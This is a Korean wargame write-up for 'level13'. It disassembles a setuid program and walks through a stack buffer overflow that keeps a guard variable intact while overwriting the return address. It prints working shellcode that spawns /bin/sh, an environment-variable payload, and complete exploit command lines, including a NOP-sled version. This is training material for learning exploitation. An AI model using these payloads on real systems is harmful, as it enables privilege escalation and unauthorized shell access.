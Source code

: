 # level 13

* id : `level13`
* pw : `have no clue`

![](./img/2021-11-10-13-20-43.png)

`level11`, `level12` 와 유사한데 이번엔 버퍼오버플로울르 검사하는 변수 `i`가 추가되었다.
스택 구조가 buf가 있고 그 위에 i가 있을텐데, 지금까지의 방식이라면 무조건 `i`가 침범당해 프로세스가 자동으로 종료될 것이다.

```python
0x080484a0 <main+0>:    push   ebp
0x080484a1 <main+1>:    mov    ebp,esp
0x080484a3 <main+3>:    sub    esp,0x418                        # 0x418 = 1048
0x080484a9 <main+9>:    mov    DWORD PTR [ebp-12],0x1234567     # i 의 주소 == [ebp-12]
0x080484b0 <main+16>:   sub    esp,0x8                          # 더미 8바이트
0x080484b3 <main+19>:   push   0xc16
0x080484b8 <main+24>:   push   0xc16                            # 0xc16 =  3094
0x080484bd <main+29>:   call   0x8048370 <setreuid>
0x080484c2 <main+34>:   add    esp,0x10
0x080484c5 <main+37>:   cmp    DWORD PTR [ebp+8],0x1
0x080484c9 <main+41>:   jle    0x80484e5 <main+69>
0x080484cb <main+43>:   sub    esp,0x8
0x080484ce <main+46>:   mov    eax,DWORD PTR [ebp+12]
0x080484d1 <main+49>:   add    eax,0x4
0x080484d4 <main+52>:   push   DWORD PTR [eax]
0x080484d6 <main+54>:   lea    eax,[ebp-1048]                   # 1048 Byte 이동해서 배열에 복사
0x080484dc <main+60>:   push   eax
0x080484dd <main+61>:   call   0x8048390 <strcpy>
0x080484e2 <main+66>:   add    esp,0x10
0x080484e5 <main+69>:   cmp    DWORD PTR [ebp-12],0x1234567     # 12 Byte 이동해서 1234567 과 동일한지 확인
0x080484ec <main+76>:   je     0x804850d <main+109>
0x080484ee <main+78>:   sub    esp,0xc
0x080484f1 <main+81>:   push   0x80485a0
0x080484f6 <main+86>:   call   0x8048360 <printf>
0x080484fb <main+91>:   add    esp,0x10
0x080484fe <main+94>:   sub    esp,0x8
0x08048501 <main+97>:   push   0xb
0x08048503 <main+99>:   push   0x0
0x08048505 <main+101>:  call   0x8048380 <kill>
0x0804850a <main+106>:  add    esp,0x10
0x0804850d <main+109>:  leave
0x0804850e <main+110>:  ret
0x0804850f <main+111>:  nop
```

보면 strcpy 를 하는 목적지 배열, 즉 `buf` 는 `[ebp-1048]`에 존재하고, `i` 는 `[ebp-12]` 에 존재하는걸 알수있다.

![](./img/2021-11-10-13-58-05.png)

즉 이런식으로 버퍼가 존재할 것이다.

i 는 항상 `1234567` 이어야 하므로, 그부분만 고려해서 입력을 하고 나머지는 더미로 채우면 될듯 하다. `level12` 풀이처럼 환경변수를 이용해 풀어보겠다.


```bash
export EGG=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
env | grep EGG
```

![](./img/2021-11-10-13-43-13.png)

주소 `0xbffffc7b` 인것을 확인.

만약 이게 11번 문제와 동일하다면 쉘코드가 이렇게 될것이다.

```bash
./attackme `python -c 'print "A"*(1024+12+4+8+4+4) + "\x7b\xfc\xff\xbf"'`
```

![](./img/2021-11-10-13-45-42.png)

역시 될리가 없다.

i 주소를 0x1234567로 덮고 다시 하면 된다. 당연히 리틀 엔디안 방식이다.


![](./img/2021-11-10-13-49-06.png)

어떻게 넣어야 될지 모르겠다면 hxd 같은 헥사 에디터에서 변환기 통해서 보면 된다.

```bash
./attackme `python -c 'print "A"*(1024+12) + "\x67\x45\x23\x01" + "A"*(12) + "\x7b\xfc\xff\xbf"'`
```

![](./img/2021-11-10-13-58-46.png)

GG!

---
## NOP Sled 이용한 풀이

이번엔 25byte 짜리 쉘코드를 이용해 보겠다.

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80
```

![](./img/2021-11-10-14-07-37.png)

(참고로 level13에서는 info reg가 안되므로 level14계정으로 했다.)

![](./img/2021-11-10-14-08-43.png)


`x/2000w 0xbfffe650` 해서 ESP 대충 뒤적거린 결과 대략 `0xbffffbc4` 근처에서 `argv`가 덮어씌워지는걸 볼수있다.

충분히 크니 0x100 정도 빼준 `0xbffffac4` 에서 NOP Sled 를 해보자.

```bash
./attackme `python -c 'print "\x90"*(1024+12-25) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80" "\x67\x45\x23\x01" + "A"*(12) + "\xc4\xfa\xff\xbf"'`
```

![](./img/2021-11-10-14-12-01.png)

GG!